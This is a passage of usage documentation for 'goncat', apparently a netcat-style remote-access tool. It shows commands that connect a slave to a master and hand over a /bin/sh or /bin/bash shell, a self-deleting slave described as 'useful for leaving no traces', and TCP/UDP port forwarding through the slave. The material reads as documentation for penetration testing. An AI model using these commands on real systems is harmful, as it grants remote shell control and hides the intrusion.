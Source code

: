 ```bash
# Master
goncat master listen 'tcp://*:12345' --ssl --key secretpassword --exec /bin/sh

# Slave
goncat slave connect tcp://192.168.1.100:12345 --ssl --key secretpassword
```

### With Session Logging

```bash
# Master
goncat master listen 'tcp://*:12345' --exec /bin/sh --log /tmp/session.log

# Slave
goncat slave connect tcp://192.168.1.100:12345
```

### Self-Deleting Slave

Useful for leaving no traces:

```bash
# Slave (will delete itself after the connection ends)
goncat slave connect tcp://192.168.1.100:12345 --cleanup
```

## Features

### Pseudo-Terminal (PTY) Support

Enable with `--pty` on the master side for fully interactive shells:

```bash
goncat master listen 'tcp://*:12345' --exec /bin/bash --pty
```

**Benefits**:
- Full terminal support (arrow keys, tab completion, text editors)
- Automatic terminal size synchronization
- Works cross-platform (Linux, Windows, macOS)

**Note**: PTY is a master-side flag. Always combine with `--exec` to specify a shell.

### Port Forwarding

goncat supports both TCP and UDP port forwarding. Use the protocol prefix (`T:` or `U:`) to specify the protocol explicitly.

#### Local Port Forwarding

Opens a port on the **master** side that forwards connections through the slave:

```bash
# TCP forwarding (implicit - backward compatible)
goncat master listen 'tcp://*:12345' --exec /bin/sh -L 8443:google.com:443
goncat master listen 'tcp://*:12345' --exec /bin/sh -L localhost:8080:192.168.1.50:80

# Explicit TCP forwarding
goncat master listen 'tcp://*:12345' --exec /bin/sh -L T:8080:web-server:80

# UDP forwarding (new!)
goncat master listen 'tcp://*:12345' --exec /bin/sh -L U:5353:dns-server:53
```
